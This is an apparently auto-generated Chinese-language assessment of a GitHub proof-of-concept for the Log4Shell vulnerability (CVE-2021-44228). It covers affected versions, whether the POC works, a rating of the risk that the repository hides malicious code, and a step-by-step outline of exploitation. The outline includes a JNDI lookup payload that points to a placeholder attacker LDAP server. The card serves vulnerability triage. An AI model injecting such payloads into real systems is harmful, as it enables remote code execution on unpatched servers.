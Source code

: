 ## CVE-2021-44228-Log4Shell

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行和完全系统控制

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用了受影响的Log4j2版本，且允许外部JNDI查找

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是一个存在于 Apache Log4j2 中的严重远程代码执行漏洞。攻击者可以通过控制日志消息或日志消息参数，利用 JNDI 功能执行从 LDAP 服务器加载的任意代码。该漏洞利用 JNDI 注入，攻击者将包含恶意 JNDI 查找的字符串发送到应用程序，Log4j2 解析并执行该字符串，从而导致远程代码执行。

**有效性：**
提供的POC代码有效。它展示了如何使用 JNDI 注入漏洞利用 Log4j2。该代码提供了一个简单的 Spring Boot 应用程序，用于触发漏洞，并提供了一个利用有效载荷的示例。

**投毒风险：**
此仓库中作者隐藏投毒代码的风险较低。`README.md` 中提示的payload执行的是打开计算器程序的操作，虽然不是恶意操作，但仍需警惕。另外，`pom.xml` 文件声明依赖了 `log4j-api` 和 `log4j-core` 2.14.1版本，这是一个受漏洞影响的版本，为复现漏洞提供环境。`VulController.java` 中定义了触发漏洞的端点 `/vul`，并使用 `log.info` 记录请求参数。这个简单的应用程序本身不包含任何隐藏的恶意代码，仓库目的是复现CVE-2021-44228。 但无法完全排除作者添加了不易察觉的后门的可能。风险评估为 10%。

**利用方式：**
利用方式如下：
1.  攻击者找到一个使用了 Log4j2 且允许外部 JNDI 查找的应用程序。
2.  攻击者将一个包含恶意 JNDI 查找的字符串（例如 `${jndi:ldap://your_ip:port/xxx}`）注入到应用程序可以记录的任何输入字段（例如 HTTP Header、POST 参数等）。
3.  当 Log4j2 尝试记录该字符串时，它会解析 JNDI 查找，并尝试连接到攻击者控制的 LDAP 服务器。
4.  攻击者的 LDAP 服务器返回一个包含恶意 Java 类的响应。
5.  Log4j2 加载并执行该恶意 Java 类，从而导致远程代码执行。

**项目地址:** [x1ongsec/CVE-2021-44228-Log4j-JNDI](https://github.com/x1ongsec/CVE-2021-44228-Log4j-JNDI)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)